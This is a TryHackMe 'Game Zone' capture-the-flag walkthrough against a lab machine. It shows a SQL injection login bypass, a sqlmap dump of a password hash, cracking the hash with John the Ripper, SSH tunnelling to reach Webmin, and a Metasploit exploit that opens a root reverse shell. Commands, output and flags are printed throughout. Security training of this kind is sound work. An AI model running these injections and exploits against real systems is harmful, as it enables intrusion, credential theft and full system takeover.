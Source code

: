 ## Game Zone

Task 1: Deploy the vulnerable machine

IP: 10.10.241.186

```
Nmap scan report for 10.10.241.186
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Task 2: Obtain access via SQLi

- SQL is the standard language for storing, editing, and retrieving data in databases. A query can look like so:
- 	SELECT * FROM users WHERE username = :username AND password := password

In the Game Zone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

By using a SQL injection: ' or 1=1 -- - , as the username and nothing as the password. I authenticates me.

This directs me to portal.php, I am now authenticated using the command. 


Task 3: Using SQLMap

SQLMap is an automatic SQL injection and database takeover tool. 

So the query packet can be intercepted and saved as request.txt or any file name.
```
$ sqlmap -r  /home/joey/ctf/tryhackme/rooms/game\ zone/sql-injection/request.txt --dbms=mysql --dump               

[22:51:45] [INFO] parsing HTTP request from '/home/joey/ctf/tryhackme/rooms/game zone/sql-injection/request.txt'
[22:51:45] [INFO] testing connection to the target URL
[22:51:45] [INFO] checking if the target is protected by some kind of WAF/IPS                                                     
[22:51:45] [INFO] testing if the target URL content is stable
[22:51:46] [INFO] target URL content is stable
[22:51:46] [INFO] testing if POST parameter 'searchitem' is dynamic        
[22:51:46] [WARNING] POST parameter 'searchitem' does not appear to be dynamic

-- SNIP --
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[22:58:41] [INFO] table 'db.users' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/users.csv'
[22:58:41] [INFO] fetching columns for table 'post' in database 'db'
[22:58:41] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:58:41] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name| description|
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11| Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.|
| 2  | Marvel Ultimate Alliance 3 | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005 | Best game ever|
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[22:58:41] [INFO] table 'db.post' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/post.csv'
[22:58:41] [INFO] fetched data logged to text files under '/home/joey/.local/share/sqlmap/output/10.10.241.186'

[*] ending @ 22:58:41 /2021-11-24/
```

Task 4: Cracking a password with JohnTheRipper

John the Ripper (JTR) is a password cracker. 

This program works by taking a wordlist and hashing it with a specified algorithm, The encoded password is Sha256.
```
$ john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Created directory: /home/joey/.john

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:01 DONE (2021-11-25 00:01) 0.7299g/s 2128Kp/s 2128Kc/s 2128KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed


$ cat john.pot
$SHA256$ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124


$ ssh agent47@10.10.241.186

The authenticity of host '10.10.241.186 (10.10.241.186)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.186' (ED25519) to the list of known hosts.
agent47@10.10.241.186's password: 

user.txt
agent47@gamezone:~$ la
.bash_history  .bash_logout  .bashrc  .cache  .profile  user.txt
agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
agent47@gamezone:~$ 
```

Task 5: Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specified that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Goint to localhost:9000 on your machine, will load imgur traffic using your other server. 

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to other server for others to view. 

```
$ ss
```

This tool is used to investigate sockets running on a host.

```
	$ ss -tulpn
	Netid	State		Recv-Q 	Send-Q	Local Address:Port	Peer Address:Port              
	udp		UNCONN		0		0		*:10000				*:*
	udp		UNCONN		0		0		*:68				*:*      
	tcp		LISTEN		0		80		127.0.0.1:3306		*:*
	tcp		LISTEN		0		128		*:10000				*:*
	tcp		LISTEN		0		128		*:22				*:*
	tcp		LISTEN		0		128		:::80				:::*
	tcp		LISTEN		0		128		:::22				:::*
```

There is an exposed port at 10000. This is inaccessible from the local machine so I can tunnel it back to the local machine with an SSH tunnel.

```
	$ ssh -L 10000:localhost:10000 agent47@10.10.241.186

	$ firefox 10.10.241.186:10000

```

I can login with the agent47 username and password.


Task 6: Privilege Escalation with Metasploit

For this part I needed to use the searchsploit to find relevant exploits.
```	
$ searchsploit webmin 1.580
---------------------------------------------------------------------------
 Exploit Title	|  Path

Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)| unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit) | /webapps/47330.rb


$ msfconsole 

search webmin

Matching Modules
================

   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

$ use exploit/unix/webapp/webmin_show_cgi_exec

$ set RHOSTS 127.0.0.1
$ set LHOST tun0
$ set payload cmd/unix/reverse
$ set SSL false

$ exploit

whoami
root
cd /root/
cat root.txt
a4b945830144bdd71908d12d902adeee
```

## Complete

